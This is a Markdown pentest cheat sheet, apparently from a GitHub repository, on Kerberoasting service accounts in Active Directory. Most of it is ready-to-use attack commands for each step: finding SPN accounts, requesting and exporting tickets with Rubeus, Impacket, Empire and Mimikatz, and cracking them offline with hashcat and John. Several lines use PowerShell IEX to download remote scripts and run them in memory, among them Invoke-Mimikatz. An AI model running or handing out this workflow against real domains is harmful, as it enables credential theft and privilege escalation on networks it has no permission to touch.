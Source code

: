 # Active Directory - Kerberos Kerberoasting

### Overview

A Kerberoasting attack is an attack on the `Kerberos` authentication protocol
that involves compromising the password of a service account, a domain account
that has a `ServicePrincipalName (SPN)`, through `service tickets` requests to
the `Ticket-Granting Service (TGS)`.

The attack is based on the fact that a part of the `service tickets` is
encrypted using one of the service account secrets (`RC4`, corresponding to
the `NTLM hash` of the service account password, and `AES 128/256 bits` keys).
The encryption type to be used can be specified client-side in order to force
the use of the `RC4` key. Thus, an offline cracking attack on the service
tickets can be conducted to retrieve the plaintext password of the
corresponding service account.   

As any authenticated user on the domain in possession of a valid
`Ticket-Granting Ticket (TGT)` can requests service tickets for all available
services, the service accounts password are exposed to offline cracking attack
that are much faster and can not be time restricted.

The attack chain is as follow:
  - Identification of accounts with a `SPN` (service accounts)
  - Request of a service ticket for those services
  - Extraction of the TGS for offline cracking

###### Service Principal Names (SPN)

The `SPN` is a unique identifier of a service instance. `SPNs` are used in
`Kerberos` authentication to associate a service instance with a service
logon account. `SPN` are used to map a service running on a server to an
account it’s running as so that it can accept Kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking.

Recommended tools:
  - `Rubeus`: robust and allow to filter out AES-enabled accounts.
  - `GetUserSPNs.py` / `GetUserSPNs_windows.exe`: robust and potentially less
  detected by security products.

```
# List statistics about Kerberoastable accounts, such as the number of accounts supporting the different encryption algorithms and the years of last password definition
Rubeus.exe kerberoast /stats

# All service accounts without AES enabled
Rubeus.exe kerberoast /rc4opsec /outfile:<FILE_PATH>

# All RC4-enabled service accounts (whom may have AES enabled as well) - with RC4 encrypted service tickets
Rubeus.exe kerberoast /tgtdeleg /outfile:<FILE_PATH>

# All service accounts - with the highest supported encryption algorithm
Rubeus.exe kerberoast /outfile:<FILE_PATH>

# Specific service account
Rubeus.exe kerberoast /tgtdeleg /user:<USERNAME> /outfile:<FILE_PATH>
Rubeus.exe kerberoast /tgtdeleg /spn:<SPN> /outfile:<FILE_PATH>

# All service accounts in the specified domain with the provided credentials
# Note that sometimes the credentials specification may induces a bug and Rubeus should be used through a runas /Netonly session
Rubeus.exe kerberoast /rc4opsec /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>
Rubeus.exe kerberoast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>

# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII <FILE>

# (Python) Impacket/examples GetUserSPNs.py
# Or standaloned Windows / Linux versions compiled: https://github.com/ropnop/impacket_static_binaries.
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# Active Directory module
Get-ADUser -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName

# PowerView
Get-DomainUser -SPN | Select-Object SamAccountName,servicePrincipalName
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# (Python) Impacket/examples GetUserSPNs.py
# Request service tickets for all service accounts
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME>
# Request service tickets for the specific account (using the service account SamAccountName)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME> -request-user '<USERNAME>'
# Pass-the-Hash
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME>

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC_HOSTNAME | DC_IP> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py

# Requests TGS for the specified SPN
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"

# Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}

# Export tickets using mimikatz
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Offline cracking of Service Tickets

Both `John the Ripper` (`magnumripper` fork) and `hashcat` can be used to crack
the service tickets.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the `PowerSploit`
`Invoke-Kerberos` cmdlet may need to be manually updated. The
[`Convert-Invoke-Kerberoast`](https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast)
Python script may be used to automate the process:

```
python Convert-Invoke-Kerberoast.py -f <TICKETS_FILE> -w <OUTPUT_FILE>
```

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -a 0 [-r <RULE_FILE>] <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
